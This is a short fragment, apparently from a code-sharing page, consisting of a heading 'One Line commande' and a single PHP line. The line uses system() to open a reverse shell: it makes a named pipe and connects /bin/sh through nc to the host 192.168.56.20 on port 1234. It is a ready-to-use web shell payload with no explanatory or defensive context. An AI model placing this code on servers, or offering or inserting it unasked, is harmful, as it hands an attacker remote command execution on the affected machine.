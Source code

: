 
### One Line commande 

```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.56.20 1234 >/tmp/f"); ?>
```